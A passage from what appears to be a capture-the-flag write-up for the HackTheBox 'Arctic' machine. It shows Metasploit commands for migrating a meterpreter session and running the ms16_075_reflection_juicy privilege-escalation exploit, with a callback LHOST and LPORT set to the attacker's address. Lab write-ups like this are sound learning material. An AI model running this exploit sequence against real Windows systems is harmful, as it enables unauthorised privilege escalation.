 so we are going to migrate to `conhost`

```sh
migrate 1164
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Arctic/Screenshots/migrateto.png)

so its now on 64 metrepreter so we will run again suggester

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Arctic/Screenshots/64bit.png)

i decide to use this exploit `ms16_075`

```sh
use exploit/windows/local/ms16_075_reflection_juicy
show options
sessions -i
set SESSION 1
set LHOST 10.10.14.9
set LPORT 1347
```
